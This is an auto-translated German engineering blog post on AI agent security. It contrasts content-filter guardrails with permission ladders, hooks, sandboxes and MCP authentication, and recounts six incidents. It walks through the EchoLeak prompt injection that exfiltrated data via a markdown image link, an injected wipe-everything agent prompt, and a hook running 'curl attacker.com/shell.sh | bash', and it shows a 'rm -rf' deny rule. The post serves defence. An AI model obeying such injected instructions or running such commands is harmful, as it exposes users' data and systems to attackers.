




Automatische Übersetzung
Dieser Artikel wurde automatisch aus der englischen Originalversion übersetzt.
AI-Agent-Sicherheit im Jahr 2026: Guardrails, Berechtigungen, Sandboxes und MCP-Bedrohungen
Teil 4 der Serie Engineering the Agentic Stack
Die Sicherheit von AI Agents ist nicht dasselbe Problem wie LLM-Safety. 2024 haben wir Guardrails ausgeliefert. NeMo Guardrails, Bedrock Guardrails und eine Handvoll ähnlicher Produkte kapselten Input und Output eines Model-Calls und stellten eine Frage: liefert das Modell das Richtige? Toxischer Output, PII-Leak, Jailbreak, Off-Topic. Filtern, redigieren, verweigern. Die Bedrohung war leicht zu erkennen, weil es nur zwei Stellen zur Inspektion gab: Input und Output.
Dann gaben wir dem Modell eine Tool-Loop, ein Dateisystem, eine Shell, ein Model Context Protocol (MCP)-Registry und die Autorität zu handeln. Das Threat Model für AI Agents änderte sich schneller, als die meisten Guardrails aus 2024 dafür gebaut waren. Sechs schwerwiegende Vorfälle in achtzehn Monaten (EchoLeak, die Kompromittierung der Amazon Q Developer Extension, die Azure MCP Server-Offenlegung, Claude Code CVE-2025-59536, der axios 1.14.1-Remote-Access-Trojaner und der Trivy Actions-Tag-Hijack, unten jeweils im Detail beschrieben) ließen sich nicht mit einem besseren Output-Filter verhindern. Der Output war in Ordnung. Das System war kompromittiert.
TL;DR: LLM-Guardrails und Content-Filter kapseln einen einzelnen Model-Call und beobachten, was das Modell sagt. AI-Agent-Sicherheit kapselt die gesamte Tool-Using-Loop und beobachtet, was das System zu tun versucht. Jeder große Agent-Vorfall 2025–2026 nutzte die Loop aus, und keiner davon löste einen Content-Filter aus. Der Policy-Stack 2026 hat sechs Schichten: Permission Ladders, Pre-Tool-Hooks, OS-Sandboxes, Human-in-the-Loop-Interrupts, audience-gebundene MCP-Tokens und die OWASP Agentic Security Initiative (ASI) Top 10 als Bedrohungslandkarte.
Content-Filter sind günstig und es lohnt sich, sie als Managed Products einzukaufen. Alles andere auf dieser Liste ist Engineering-Arbeit, die Ihr Team selbst leisten muss, und genau das nimmt den Großteil Ihres Security-Budgets ein.
Warum AI-Agent-Sicherheit sich von LLM-Safety unterscheidet
Bharani Subramaniam und Martin Fowler haben das Framing Anfang 2025 in Emerging Patterns in Building GenAI Products gesetzt. Ihre Beobachtung war eng umrissen und direkt:
"With traditional systems, we could assess correctness primarily through testing... With LLM-based systems, we encounter a system that no longer behaves deterministically."
Die Branche hörte das, baute Evaluation Suites für Modell-Outputs und vergaß zu evaluieren, was das Modell tatsächlich tun konnte: Tools aufrufen, Shell-Commands ausführen, Dateien schreiben. Das Reframing von 2026 ist das entscheidende: „liefert das Modell das Richtige?“ ist nicht dieselbe Frage wie „macht das System das Richtige?“ Die erste ist ein überfüllter Markt. Bei der zweiten passieren viele Produktionsausfälle.

Simon Willison prägte im Juni 2025 die Form des agentenspezifischen Risikos mit der lethal trifecta:
"The lethal trifecta of capabilities is: access to your private data; exposure to untrusted content; the ability to externally communicate in a way that could be used to steal your data. If your agent combines these three features, an attacker can easily trick it into accessing your private data and sending it to that attacker."
Lesen Sie das und schauen Sie sich dann irgendein Agent-Architekturdiagramm an. Inbox-Read plus Web-Fetch plus Slack-Post. Repo-Zugriff plus Issue-Reader plus PR-Write. Kalender plus E-Mail plus SMS. Die Trifecta ist nicht selten. Sie kommt in nützlichen Agents auf Firmenlaptops häufig vor. Ein LLM-Guardrail fragt, ob das Modell etwas Unsicheres gesagt hat. Die Trifecta fragt, ob sich das System zu unsicherem Verhalten steuern lässt. Andere Frage.

Die strukturelle Version desselben Arguments findet sich in Joel Fokous Parallax-Preprint (arXiv 2604.12986, eingereicht am 14. April 2026, nicht peer-reviewed). Die Kernbehauptung:
"The system that reasons about actions must be structurally unable to execute them, and the system that executes actions must be structurally unable to reason about them, with an independent, immutable validator interposed between the two."
Man muss die Evaluationszahlen des Papers nicht kaufen, um den strukturellen Punkt mitzunehmen. Jeder ausgelieferte Harness im April 2026 nähert eines seiner vier Prinzipien an:
- Claude Codes PreToolUse-Hooks
- Codex CLIs OS-gebundener Executor (bubblewrap/seccomp unter Linux)
- Managed Agents' Credential Vault außerhalb der Sandbox
- MCPs RFC 8707 audience-gebundene Tokens
Cognitive-Executive Separation, also die Trennung zwischen dem System, das entscheidet, und dem System, das handelt, ist nicht nur eine Design-Präferenz. Sie ist eine gemeinsame Eigenschaft von Systemen, die diese Klasse von Kompromittierung vermieden haben.
Es gibt eine komplementäre Disziplin, die Alessandro Pignati im Januar 2026 am prägnantesten benannt hat: das Principle of Least Agency. Least Privilege fragt: worauf kann diese Identität zugreifen? Least Agency fragt: was darf dieser Agent entscheiden? Privilege begrenzt die Credentials; Agency begrenzt die Reichweite eines Plans selbst dann, wenn die Credentials gültig sind. OWASPs Top 10 für Agentic Applications behandelt Excessive Agency als eine der zehn Kategorien von Fehlfunktionen. Least Agency ist die Design-Disziplin, die das verhindert. Ein Agent, der Ihre Inbox zusammenfassen kann, braucht wahrscheinlich keine Commit-Rechte auf Ihr Monorepo. Trotzdem finden wir immer wieder Konfigurationen, in denen er genau die hat.
Was LLM Guardrails tatsächlich abdecken
Bevor ich argumentiere, was LLM-Guardrails übersehen, möchte ich ihnen zugutehalten, was sie leisten. Sie leisten sinnvolle Arbeit innerhalb des Model-Calls. Sie sehen nur die Loop darum herum nicht.
Um die Schicht klar zu benennen: LLM-Guardrails sind die Content-Filter-Schicht. Sie inspizieren den Text, der ins Modell geht, und den Text, der herauskommt, und blockieren, redigieren oder markieren alles, was nicht besteht. Alle sieben unten genannten Produkte folgen diesem Muster, und ich werde sie in den späteren Abschnitten als „Content-Filter“ bezeichnen, wenn ich sie von Permission Ladders und Human-in-the-Loop abgrenzen muss.
Der Markt ist ausgereift und commoditized. Jeder große Cloud-Anbieter hat ein Produkt, die Formen konvergieren, und die Preise liegen im Cent-Bereich pro tausend Text Units. Ein Architekturdiagramm von 2026 wird eines der sieben unten enthalten, und das sollte es auch. Verwechseln Sie es nur nicht mit einem Perimeter.
NVIDIA NeMo Guardrails
Das meinungsstärkste Produkt: ein Orchestrierungsframework um fünf Rail-Typen (Input, Dialog, Retrieval, Execution, Output) mit eigener DSL — Colang, einer Python-ähnlichen Sprache für Dialogflüsse, User Intents und Bot Messages. Die Grundlagen lassen sich aus Python + YAML ansteuern, aber reichere Dialoglogik wird in Colang geschrieben — daher „opinionated“. Dokumentation unter docs.nvidia.com/nemo/guardrails.
from nemoguardrails import LLMRails, RailsConfig
config = RailsConfig.from_path("./config")
rails = LLMRails(config)
response = rails.generate(
messages=[{"role": "user", "content": "Hello"}]
)
NeMos Repo benennt sein Threat Model explizit: "common LLM vulnerabilities, such as jailbreaks and prompt injections." Ebenso explizit ist der Scope: "The built-in guardrails may or may not be suitable for a given production use case... developers should work with their internal application team to ensure guardrails meets requirements." Praktisch heißt das: NeMo beobachtet, was das Modell sagt. Was der Agent tut (welche Tools er aufruft, welche Argumente er übergibt, was er aus dem Dateisystem zurückliest), liegt bei Ihnen.
Meta Llama Guard 4
Ein 12B reiner Content-Classifier, aus Llama-4-Scout herausgepruned, ausgerichtet an der MLCommons-Hazards-Taxonomie (13 Schadenkategorien plus Code-Interpreter-Missbrauch, laut Model Card). Meta ist ungewöhnlich offen bei den Grenzen:
"Some hazard categories may require factual, up-to-date knowledge to be evaluated fully... Lastly, as an LLM, Llama Guard 4 may be susceptible to adversarial attacks or prompt injection attacks that could bypass or alter its intended use: see Llama Prompt Guard 2 for detecting prompt attacks."
Meta liefert ein separates Produkt aus, um seinen Content-Classifier gegen Prompt Injection zu verteidigen. Wenn dieser Satz wie ein strukturelles Eingeständnis klingt, dann ist er das.
Guardrails AI
Ein Validator-Registry. Sie komponieren 60+ Hub-Validatoren (PII via Presidio, JailbreakDetect, CompetitorCheck, Provenance Checks) mit Fail-Modes raise | fix | filter | refrain | reask | noop (guardrailsai.com). Es gibt kein einheitliches Threat Model; die Abdeckung entspricht der Vereinigung der installierten Validatoren. Stärke: flexible Abdeckung auf Basis der Validatoren, die Sie auswählen. Schwäche: kein Schutz außerhalb der Validatoren, die Sie installieren.
Lakera Guard
Der etablierte SaaS-API-Anbieter, trainiert auf zig Millionen Angriffssamples, gesammelt aus Gandalf. Verspricht, Input und Output auf „Prompt-Angriffe ... und Datenabfluss“ zu prüfen. Die Free Tier liegt bei 10.000 Requests/Monat; Enterprise-Preise sind intransparent.
AWS Bedrock Guardrails
Der Enterprise-Default, wenn Sie bereits auf Bedrock sind. ApplyGuardrail funktioniert mit jedem Modell, Bedrock oder nicht:
import boto3
brt = boto3.client("bedrock-runtime")
resp = brt.apply_guardrail(
guardrailIdentifier="gr-xxxxxxxxxxxx",
guardrailVersion="2",
source="INPUT",
content=[{"text": {"text": "user question",
"qualifiers": ["guard_content"]}}],
)
Veröffentlichte Preise: $0.15 pro 1.000 Text Units für Content-Filter oder Denied Topics, $0.10 für PII-Filter oder Contextual Grounding. Eine Text Unit sind bis zu 1.000 Zeichen.
Azure AI Content Safety
Liefert Prompt Shields als einheitlichen Endpoint, der „adversarial user input attacks ... direct and indirect threats“ erkennt und blockiert. Azure ist ebenfalls offen: "You can't use Azure AI Content Safety to detect illegal child exploitation images," und die mehrsprachige Qualität ist auf acht evaluierte Sprachen begrenzt.
OpenAI Moderation und OpenAI Guardrails
omni-moderation-latest ist die kostenlose multimodale Baseline. Separat ist openai-guardrails-python (Dokumentation unter guardrails.openai.com) OpenAIs Framework-Antwort: eine dreistufige Pipeline (Pre-Flight, Input, Output) mit Jailbreak Detection, Hallucination Detection via FileSearch, NSFW, PII via Presidio und LLM-as-Judge. GuardrailAgent bindet in das Agents SDK ein.
from guardrails import GuardrailsOpenAI, GuardrailTripwireTriggered
client = GuardrailsOpenAI(config="guardrail_config.json")
try:
resp = client.responses.create(model="gpt-5", input="...")
except GuardrailTripwireTriggered as e:
print(f"blocked: {e}")
Das Muster unter den Produkten
Zwei Beobachtungen, die für alle sieben gelten.
Erstens: veröffentlichte Latenz- und Durchsatzzahlen sind rar. Bedrock, Azure und Lakera veröffentlichen Preise, aber keine Garantien für Worst-Case-Latenz (die 99. Perzentil-„p99“-Zahl — die Zahl, die bestimmt, wie langsam Ihre langsamsten Requests werden). Meta veröffentlicht ebenfalls keine Hosted-Endpoint-Garantien für Llama Guard. NVIDIA liefert NemoGuard als herunterladbare Microservices aus, die Sie selbst hosten; Sie zahlen also die Infrastruktur und setzen Ihre eigenen Service Levels. Jedes zusätzliche Guardrail ist ein weiterer Model-Call auf dem kritischen Pfad. Wenn Sie drei davon naiv stapeln (ein Input Shield, ein Output Shield, ein Hallucination Check), können Sie die End-to-End-Latenz gegenüber einfacher Generierung verdreifachen. Das p99-Dashboard wird Ihnen das als Erstes sagen.
Zweitens, und das ist der eigentliche Punkt dieses Beitrags: keines dieser Produkte beansprucht, Tool-Call-Layer-Policies, MCP-Authentifizierung, mehrstufige Exfiltration über abgerufene Inhalte, Agent-Goal-Hijack über Konfigurationsdateien oder Code-Ausführung abzudecken, die vor dem ersten Modellaufruf passiert. Sie filtern Tokens. Agents handeln außerhalb des Generierungsstroms des Modells — in Tool-Calls, Dateien und dem Netzwerk — wo kein Token-Classifier sie sehen kann.
Bedrohungen der AI-Agent-Sicherheit: sechs Vorfälle und die OWASP ASI Top 10
Die Lücke zwischen „Tokens filtern“ und „die Loop schützen“ hörte Mitte 2025 auf, akademisch zu sein. Sechs Vorfälle in achtzehn Monaten haben das Threat Model verändert. Keiner davon wäre durch irgendein Produkt im vorherigen Abschnitt gestoppt worden.
EchoLeak — CVE-2025-32711, CVSS 9.3
Offengelegt von Aim Labs im Juni 2025 gegen Microsoft 365 Copilot; die technische Analyse wird inzwischen auf Cato Networks gehostet (das das Forschungsteam von Aim Security übernommen hat) unter dem Namen von Itay Ravia, ehemals Head of Aim Labs (Analyse). Eine präparierte E-Mail, formuliert als Anweisungen an den menschlichen Empfänger, schlüpfte an XPIA vorbei (Microsofts eingebautem Filter, der in Copilot-Inputs nach Prompt-Injection-Angriffen sucht). Von dort wurde sie in Copilots Retrieval-Layer gezogen — den Teil des Systems, der Ihre Dokumente durchsucht, um Kontext für Antworten zu finden — über einen Trick, den die Forscher RAG-spraying nennen: Der Angreifer platziert dieselbe schädliche Instruktion in vielen indexierten Dokumenten, sodass Retrieval mit hoher Wahrscheinlichkeit mindestens eines davon in den Modellkontext zieht. Einmal drin, bettete Copilot gehorsam die sensibelsten Daten der Session in einen Markdown-Link ein, der auf ein Bild unter einer vom Angreifer kontrollierten Domain zeigte. Die Teams-Preview-API, die auf einer Domain lief, der Microsofts Browser-Policies ohnehin schon vertrauten, rief diese Bild-URL automatisch ab und übergab dabei die Daten an den Angreifer. Zero clicks. Aim Labs nannte diese Angriffsklasse „LLM Scope Violation“: das Modell überschreitet eine Grenze, die es nie hätte überschreiten dürfen, und benutzt dabei nur Operationen, die jedes Einzelsystem für legitim hielt.
Jeder Schritt wirkte isoliert legitim. Die E-Mail war an einen Menschen adressiert. Retrieval zog ein Dokument, das es ziehen sollte. Der Markdown-Link wurde so gerendert, wie Markdown-Links eben gerendert werden. Der Image-Fetch traf eine allowlistete Domain. XPIA hatte nichts zu markieren, weil nichts für sich genommen markierbar war. Das System war kompromittiert. Das Modell nicht.
Amazon Q Developer VS Code v1.84.0 — Juli 2025
AWS lieferte einen kompromittierten Build aus, nachdem ein Angreifer über ein überbreit gescoptes CodeBuild-GitHub-Token eine schädliche System-Prompt-Datei committen konnte (Advisory). Der injizierte Prompt wies den Agent an, „ein System in einen nahezu fabrikneuen Zustand zu versetzen und Dateisystem- sowie Cloud-Ressourcen zu löschen“. Ein Syntaxfehler verhinderte die Live-Ausführung auf den ~950.000 Installationen. AWS widerrief Credentials, entfernte den Code und veröffentlichte v1.85.0. Die Payload scheiterte wegen eines Syntaxfehlers, nicht weil eine Sicherheitskontrolle sie blockierte.
Azure MCP Server — CVE-2026-32211, CVSS 9.1
Das deutlichste Beispiel für die falsche Schicht. Der CVE-Feed beschreibt ihn als "Missing authentication for critical function in Azure MCP Server allows an unauthorized attacker to disclose information over a network." Das MCP SDK hat keine eingebaute Auth. Dieser Server vergaß, eine hinzuzufügen. Kein Content-Filter wird jemals aufgerufen, weil das Modell gar nicht im Bild ist. Der Angreifer spricht direkt mit dem Tool.
Claude Code CVE-2025-59536 — CVSS 8.7
Die kanonische Agent-Configuration-Trust-Schwachstelle. Check Points Aviv Donenfeld und Oded Vanunu legten offen, dass "repository-defined configurations defined through .mcp.json and .claude/settings.json files could be exploited by an attacker to override explicit user approval... by setting the enableAllProjectMcpServers option to true."
Die Angriffskette lohnt einen langsamen Durchgang:
- Das Opfer clont ein nicht vertrauenswürdiges Repo.
- Ein
SessionStart-Hook führtcurl attacker.com/shell.sh | bashaus, bevor Claude Codes Trust-Dialog erscheint. .mcp.jsongenehmigt nicht vertrauenswürdige MCP-Server automatisch.ANTHROPIC_BASE_URL(das begleitende CVE-2026-21852, CVSS 5.3) leitet alle Claude-API-Calls, einschließlich Bearer-Tokens, stillschweigend auf einen vom Angreifer kontrollierten Host um.
Behoben jeweils in Claude Code 1.0.111 und 2.0.65 (Advisory GHSA-ph6w-f82w-28w6). Die Check-Point-Zusammenfassung ist die, die man sich merken sollte: "traditional prompt injection defenses... provide zero protection." Der Code des Angreifers läuft auf Ihrer Maschine (was Security-Leute Remote Code Execution oder RCE nennen), bevor das Modell überhaupt aufgerufen wird.
Axios 1.14.1 — 31. März 2026
Maintainer jasonsaayman im Post-Mortem: "two malicious versions of axios (1.14.1 and 0.30.4) were published to the npm registry through my compromised account. Both versions injected a dependency called plain-crypto-js@4.2.1 that installed a remote access trojan on macOS, Windows, and Linux." Ein Remote-Access-Trojaner ist Malware, die still eine Backdoor öffnet — sie erlaubt dem Angreifer, Befehle auszuführen, Dateien zu lesen und Ihre Eingaben von irgendwo im Internet aus mitzuschneiden. Expositionsfenster: ungefähr drei Stunden. Attribution: UNC1069 (Sapphire Sleet) laut Googles Threat Intelligence Group. Jeder Coding Agent, der in diesem Fenster npm install ausgeführt hat, zog die Backdoor hinein. Das Modell war nie beteiligt. In dieser Vorfallklasse liegt der Fehler in der Supply-Chain-Ausführung, nicht im Modellverhalten.
Trivy Actions Tag Hijack — GHSA-69fq-xp46-6x23, 19. März 2026
Ein Angreifer schrieb 76 von 77 Version-Tags in aquasecurity/trivy-action um — dem Repository, das zahllose CI-Pipelines für Security Scanning verwenden — sodass die Tags nun auf Credential-stehlende Malware statt auf den echten Trivy-Code zeigten. Auf dieselbe Weise wurden alle 7 Tags in setup-trivy ersetzt, und es wurde ein v0.69.4-Binary ausgeliefert, das Umgebungsvariablen abgriff (Passwörter, API-Keys, Tokens — also das Zeug in /proc/<pid>/environ unter Linux) direkt aus GitHub-Actions-Runnern (Aqua-Advisory). Jeder Coding Agent, der während dieses Fensters npm install oder einen Security-Scan-Step ausführte, führte die Payload automatisch aus, weil Agents Tags genauso vertrauen wie Menschen — also vollständig.
Die OWASP ASI Top 10, Ausgabe 2026
OWASP (das Open Worldwide Application Security Project, die Nonprofit-Organisation hinter der kanonischen Top-10-Liste von Web-Schwachstellen, an der sich die meisten Security-Programme orientieren) sah das kommen. Seine Agentic Security Initiative ist eine Working Group, die sich speziell auf LLM-getriebene Agents fokussiert, und am 9. Dezember 2025 veröffentlichte sie die Agentic Security Initiative Top 10 for 2026: einen priorisierten Katalog der zehn Schwachstellenkategorien, die Agent-Systeme von klassischen LLM-Apps unterscheiden.
Die Liste lohnt sich, langsam gelesen zu werden. Sie leitet sich daraus ab, wo sich reale Vorfälle häufen, abgeglichen mit dem, was die breitere Security-Community als die folgenreichsten Fehlermodi in produktiven Agent-Deployments markiert. Lesen Sie sie als Checkliste dafür, was ein modernes Agent-Threat-Model abdecken sollte:

Zählen Sie die Kategorien, die primär von einem Content-Filter adressiert werden. ASI01 teilweise, vielleicht etwas von ASI06. Nennen wir es zwei von zehn. Die anderen acht sind Harness-Themen. EchoLeak mappt auf ASI01. Amazon Q mappt auf ASI04 und ASI02. Azure MCP ist ASI03. Claude Code CVE-2025-59536 ist ASI05 + ASI04 + ASI03. Axios und Trivy sind ASI04. Die Vorfallsverteilung und die OWASP-Verteilung stimmen in der Form von 2026 überein: Die dominante Bedrohungsklasse ist unter das Modell gewandert.
Berechtigung ist Infrastruktur, nicht Prompt
Hier hören Guardrails auf, das Produkt zu sein, und werden zu einem Subsystem eines Harness. Drei Systeme im April 2026 (OpenAI Agents SDK, Codex CLI und Claude Code) zeigen, wie eine produktive Policy-Oberfläche tatsächlich aussieht. Alle drei erzwingen Berechtigungen im Code. Keines verlässt sich darauf, dass das Modell vorsichtig ist.
OpenAI Agents SDK
Das SDK trennt Harness von Compute. Hosted-MCP-Tools akzeptieren require_approval — einen String ("always" / "never") oder ein Per-Tool-Dict — plus einen on_approval_request-Callback, der feuert, wenn ein Tool gegatet wird. Fine-Grained-Tool-Filtering (tool_filter) ist auf den Local-Server-Varianten (MCPServerStdio, MCPServerStreamableHttp, MCPServerSse) verfügbar, falls Sie es brauchen:
from agents import Agent, HostedMCPTool
agent = Agent(
name="Ops",
tools=[HostedMCPTool(
tool_config={
"type": "mcp",
"server_label": "github",
"server_url": "https://mcp.example.com",
"require_approval": {"delete_repo": "always",
"list_issues": "never"},
},
on_approval_request=lambda r:
"approve" if r.tool_name == "list_issues" else "reject",
)],
)
Der Approval-Callback ist Code. Die Per-Tool-Approval-Policy ist Code. Sie können diese Datei lesen. Sie können sie testen. Sie können sie diffen. Nichts davon gilt für einen System-Prompt, der sagt „please be careful with production“.
Codex CLI und die Managed Policy Layer
OpenAIs Coding-Harness liefert eine managed-configuration-Datei aus, die IT-Abteilungen über ihr Device-Management-System auf die Macs der Mitarbeitenden pushen (derselbe Mechanismus, mit dem sie Zertifikate oder VPN-Einstellungen installieren). Die Datei liegt unter /etc/codex/requirements.toml und fungiert als Hard-Constraint-Layer — Regeln, die Projekt-Level-Einstellungen nicht überschreiben können, egal, was ein Entwickler in seine eigene Config schreibt:
[[rules.prefix_rules]]
pattern = [{ token = "rm" }, { any_of = ["-rf", "-fr"] }]
decision = "forbidden"
justification = "Recursive force-delete prohibited by IT policy"
Zwei Designdetails. prefix_rules.decision akzeptiert nur "prompt" oder "forbidden", niemals "allow". Ein Projekt kann sich selbst keine Berechtigung geben, die die Managed Layer verbietet. Und MCP-Allowlists sind auf Name und Identität (Command String oder URL) geschlüsselt, sodass ein Projekt nicht behaupten kann, es sei github-mcp, und dabei auf den Server eines Angreifers zeigen.
Claude Codes Permission Ladder
Die ausgefeilteste in der Branche. Jeder Tool-Call durchläuft sechs Gates in Reihenfolge (Dokumentation): deny → ask → PreToolUse hooks → allow → mode → canUseTool. Hooks stehen über Modes, und ein permissionDecision: "deny" aus einem Hook blockiert Ausführung selbst unter bypassPermissions.

Modes rotieren mit Shift+Tab durch default → acceptEdits → plan. auto, bypassPermissions und dontAsk werden unter spezifischen Entry Conditions aktiv, die die Enterprise-Managed-Policy-Layer sperren kann. Das ist mehr als eine Config-Datei, die auf Korrektheit geprüft wird. Es ist eine State Machine mit Prioritätsregeln, veröffentlicht, damit ein Security-Team darüber nachdenken kann.
Drei Blast Radii in einer Datei
So sieht eine Permission-Config im Codex-Stil mit drei Profilen aus:
# ~/.codex/config.toml
approval_policy = "auto"
sandbox_mode = "workspace-write"
[profiles.ci]
approval_policy = "read-only"
sandbox_mode = "read-only"
[profiles.release]
approval_policy = "full-access"
sandbox_mode = "workspace-write"
[mcp_servers.github]
command = "gh-mcp"
args = ["--readonly"]
Drei Profile, drei Blast Radii, kein Prompt, der dem Agent sagt, vorsichtig zu sein. Wenn der Agent etwas außerhalb seines Profils versucht, sagt die OS-Level-Sandbox nein. Seatbelt auf macOS, bubblewrap plus seccomp unter Linux, restricted tokens unter Windows. Die Meinung des Modells spielt keine Rolle.
Sandbox Enforcement ist eine OS-Frage
Den eigentlichen Job macht hier der Kernel. Jedes OS gibt Ihnen ein anderes Toolkit, und die zwei CLIs greifen nicht immer zum selben Baustein:
| Platform | Claude Code | Codex CLI |
|---|---|---|
| macOS | Seatbelt via sandbox-exec with an SBPL (Seatbelt Profile Language) profile |
Seatbelt via sandbox-exec -p |
| Linux | bubblewrap + socat network proxy | bubblewrap + seccomp (legacy Landlock via use_legacy_landlock) |
| Windows | WSL2 required | Native restricted tokens / AppContainer + ACL + capability SIDs |
Sie stimmen dort überein, wo das OS eine Option vorgibt (Seatbelt, bubblewrap), und unterscheiden sich dort, wo es das nicht tut. Claude Code lässt Windows aus und verweist auf WSL2. Codex liefert eine native Windows-Sandbox. In beiden Fällen passiert Enforcement im Kernel, nicht im Modell.
